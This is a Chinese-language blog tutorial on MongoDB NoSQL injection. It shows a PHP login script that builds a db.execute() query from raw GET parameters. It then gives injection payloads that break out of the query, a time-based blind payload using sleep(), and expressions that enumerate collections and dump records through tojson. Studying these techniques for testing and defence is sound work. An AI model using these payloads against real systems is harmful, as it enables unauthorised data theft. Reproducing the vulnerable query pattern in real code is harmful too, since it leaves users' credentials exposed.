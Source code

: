     
    <?php 
    $mongo = new mongoclient();
     $db = $mongo->test; //选择数据库
    
    $username = $_GET['username'];
    $password = $_GET['password'];
    
    $query = "var data = db.user.findOne({username:'$username',password:'$password'});return data;";
    echo $query."<br>";
    $data = $db->execute($query);
    
    if ($data['ok'] == 1) {
        if ($data['retval']!=NULL) {
            echo 'username:'.$data['retval']['username']."";
            echo 'password:'.$data['retval']['password']."";
        }else{
            echo 'cant find';
        }
    }else{
        echo $data['errmsg'];
    }

正常运行时 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/d597cc760b043d53a94e07a5d81fac24.png) 根据execute可以执行多条语句的特性，尝试闭合语句，输入如下payload （貌似//注释符高版本不能用了） （后来确认了下，当语句return时，后面的代码就不执行了，但依旧要保证语法的正确性）

?username=test',password:'kingkk'});return{username:1,password:2};({aaa:'9
&password=1

执行语句如下

var data = db.user.findOne({username:'test',password:'kingkk'});return{username:1,password:2};({aaa:'9',password:'1'});return data;

执行结果 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/a6dca26460378827f4324288048f3018.png) 再利用tojson函数，即可获得想要的数据  `tojson(db.test.find()[0])` ![](http://blog.kingkk.com/wp-content/uploads/2018/04/1bd1005de4babc8dbafcc8f6c1fd965c.png) 当无回显时，可用新增一条盲注语句的方式

?username=test',password:'kingkk'});if(db.version()>"3"){sleep(2000)};return{username:1,password:2};({aaa:'9
&password=1

成功产生延时 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/a723ff22973ffb15ae24b855c6c3c6a3.png) 然后开始获取数据 获取集合个数

db.getCollectionNames().length==2

获取集合名字长度

db.getCollectionNames()\[2\].length==4

获取集合名字

db.getCollectionNames()\[2\]\[0\]>'a'

由于find之后的结果是个集合，不是个字符串无法进行比较。所以要用tojson的方式，转换成字符串，从而获取每个字段的值

tojson(db.user.find()\[0\])\[0\]=='{'

附上一个自己的盲注入脚本（延时可根据自己的网络延时进行判定，因为我是本地服务器，节省时间就减小了延迟）
